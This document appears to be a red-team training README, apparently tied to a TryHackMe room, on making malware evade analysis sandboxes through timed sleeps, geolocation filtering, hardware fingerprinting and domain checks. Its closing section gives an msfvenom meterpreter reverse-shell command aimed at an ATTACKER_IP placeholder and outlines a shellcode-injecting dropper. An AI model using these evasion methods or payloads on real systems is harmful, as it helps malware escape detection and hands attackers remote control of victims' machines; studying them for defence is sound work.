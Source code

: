 # Common sandbox evasion techniques

Some practical knowledge to help out in Red Team operations (from basic techniques to the most advanced):

* Sleeping through sandboxes
* Geolocation and geoblocking
* Checking system information
* Querying network information

## Sleeping through sandboxes

Malware Sandboxes are often limited to a time constraint to prevent the overallocation of resources, which may 
increase the Sandboxes queue drastically. This is a crucial aspect that can be abused. For example, if we know that 
a Sandbox will only run for five minutes at any given time, we can implement a sleep timer that sleeps for five 
minutes before executing shellcode. 

This could be done in any number of ways: 

* One common way is to query the current system time and, in a parallel thread, check and see how much time has 
elapsed. After the five minutes have passed, the program can begin normal execution.
* Another popular method is to do complex, compute-heavy math, which may take a certain amount of time — for example, 
calculating the Fibonacci sequence up to a given number. It may take more or less time to do so based on the system's 
hardware. Masking the application is generally a good idea to avoid Anti-Virus detections in general.

Beware that some sandboxes may alter built-in sleep functions. Several Anti-Virus vendors have put out blog posts 
about bypassing built-in sleep functions. So it is highly recommended to develop our own sleep function.

## Geolocation and geoblocking

One defining factor of Sandboxes is that they are often located off-premise and are hosted by Anti-Virus providers. 
If you know you are attacking TryHackMe, a European company, and your binary is executed in California, you can make 
an educated guess that the binary has ended up in a Sandbox. You may choose to implement a geolocation filter on 
your program that checks if the IP Address block is owned by the company you are targeting or if it is from a 
residential address space. 

IfConfig.me can be used to retrieve your current IP Address, with additional information being optional. Combining 
this with ARIN's RDAP allows you to determine the ISP returned in an easy to parse format (JSON). That will, ofcourse, 
will only work if the host has internet access. Some organizations may build a block list of specific domains, so you 
should be 100% sure that this method will work for the organization you are attempting to leverage this against.

## Checking system information.

Another incredibly popular method is to observe system information. Most Sandboxes typically have reduced resources. 
A popular Malware Sandbox service, Any.Run, only allocates 1 CPU core and 4GB of RAM per virtual machine.

Most workstations in a network typically have 2-8 CPU cores, 8-32GB of RAM, and 256GB-1TB+ of drive space. This is 
incredibly dependent on the organisation that you are targeting, but generally, you can expect more than 2 CPU cores 
per system and more than 4GB of RAM. Knowing this, we can tailor our code to query for basic system info (CPU core 
count, RAM amount, Disk size, etc).

Some additional examples of things to filter on:

* Storage Medium Serial Number
* PC Hostname
* BIOS/UEFI Version/Serial Number
* Windows Product Key/OS Version
* Network Adapter Information
* Virtualization Checks
* Current Signed in User
* ...

## Querying network information

Almost no Malware Sandboxes are joined in a domain, so it's relatively safe to assume if the machine is not joined 
to a domain, it is not the right target. You cannot always be too sure, so collect some information about the domain 
to be safe, for example. check:

* Computers
* User accounts
* Last User Login(s)
* Groups
* Domain Admins
* Enterprise Admins
* Domain Controllers
* Service Accounts
* DNS Servers

These techniques can vary in difficulty. Consider how much time and effort to spend building out these evasion methods. 
A simple method, such as checking the systems environment variables (this can be done with `echo %VARIABLE%` or to 
display all variables, use the `set` command) for an item like the `LogonServer`, `LogonUserSid`, or `LogonDomain` 
may be much easier than implementing a Windows API.

## Setting the stage

1. Create a basic dropper that retrieves shellcode from a Web Server (specifically from `/index.raw`) and injects it 
into memory, and executes the shellcode. All shellcode must be generated with MSFVenom in a raw format, and must be 
64-bit, not 32-bit.

```text
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
```

2. Prepare for download on the target machine:

```text
$ python3 -m http.server 8080
```

3. Download the `dropper.cpp`, and open it. There are several placeholder values on lines 16, 22, 24, 27, and 33 that 
must be altered to make the code function properly. Once you have entered the values, compile the code for a 64-bit 
release.

## Resources

* [Evasions: Timing](https://evasions.checkpoint.com/techniques/timing.html)
* [Threading based Sleep Evasion](https://www.joesecurity.org/blog/660946897093663167)
* [What Is My IP Address? - ifconfig.me](https://ifconfig.me/)
* [APNIC RDAP API](https://rdap.apnic.net/ip/1.1.1.1)